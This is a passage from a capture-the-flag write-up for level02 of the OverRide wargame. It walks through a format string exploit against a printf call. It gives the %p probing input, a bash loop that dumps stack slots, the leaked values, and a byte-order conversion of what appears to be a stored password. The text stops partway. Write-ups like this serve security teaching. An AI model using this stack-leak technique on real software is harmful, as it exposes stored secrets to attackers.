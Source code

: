 # level02


In this exercice, we will exploit a vulnerability in a printf call, first, let's try to see if we can print some addresses:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p
--[ Password: %p %p %p %p
*****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a does not have access!
level02@OverRide:~$
```

We can see that a vulnerability, let's try to print the stack to see if we can find a pattern of addresses:

```bash
for ((i=0 ; i < 128; i++)); do echo "$i - %$i\$p" | ./level02; done | grep "does not have access"
```

We can see a pattern of addresses at the begining, after the initialisation:

```bash
10 - (nil) does not have access!
11 - (nil) does not have access!
12 - (nil) does not have access!
13 - (nil) does not have access!
14 - (nil) does not have access!
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

We will convert the addresses to big endian, to do so, we will use [this tool](https://www.save-editor.com/tools/wse_hex.html):

4868373452506E75
51397361354A4145
58674E5743717A37
7358476E68354A35
4D394B6650673348